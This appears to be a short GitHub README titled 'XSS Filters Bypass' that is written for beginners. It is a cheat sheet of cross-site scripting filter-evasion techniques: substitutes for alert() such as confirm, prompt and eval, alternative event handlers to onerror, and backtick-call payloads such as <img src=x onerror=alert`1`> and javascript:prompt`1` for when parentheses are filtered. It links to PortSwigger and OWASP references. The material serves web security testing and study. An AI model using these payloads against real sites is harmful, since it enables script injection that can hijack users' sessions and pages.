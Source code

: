 # XSS Filters Bypass.

if You Are a Beginner then First Clear the Basic Concepts .

-   `alert()` Alternatives

```
   1)Use confirm() Not alert()
   2)Use prompt() Not alert()
   3)Use console.log() Not alert()
   4)use eval() Not alert()
```

-   `onerror` Event Handler Alternatives

```
   1)Use onload
   2)Use onfocus
   3)Use onmouseover
   4)Use onblur
   5)Use onclick
   6)Use onscroll
```

-   Note:- if () get filtered then Use \`\` Rather then () , Some Examples Are Below.

```
   1)<script>alert`1`</script>
   2)<img src=x onerror=alert`1`>
   3)<img src=x onerror=prompt`1`>
   4)javascript:prompt`1`
   5)javascript:alert`1`
```

## Resources

-   1:-[Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
-   2:-[OWASP](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

## Twitter:[Fani Malik](https://twitter.com/fanimalikhack/)
